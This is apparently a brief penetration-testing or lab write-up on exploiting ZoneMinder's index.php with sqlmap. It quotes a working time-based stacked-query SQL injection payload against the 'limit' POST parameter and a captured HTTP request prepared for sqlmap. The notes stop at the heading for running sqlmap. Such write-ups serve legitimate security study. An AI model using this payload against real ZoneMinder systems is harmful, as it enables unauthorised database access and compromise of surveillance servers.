

# 3 zoneminder sqlmap

By the looks from exploit-db, attack is an inferential sqli - blind and time based.

```bash
2)SQL Injection
Example Url:http://192.168.241.131/zm/index.php
Parameter: limit (POST)
    Type: stacked queries
    Title: MySQL > 5.0.11 stacked queries (SELECT - comment)
    Payload: view=request&request=log&task=query&limit=100;(SELECT *
FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434
Easy exploitable using sqlmap.
```

## Using sqlmap

* Captured requests via Burp and modified it.

```bash
POST /zm/index.php HTTP/1.1
Host: 192.168.154.52
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

view=request&request=log&task=query&limit=100&minTime=1466674406.084434
```

* Running sqlmap





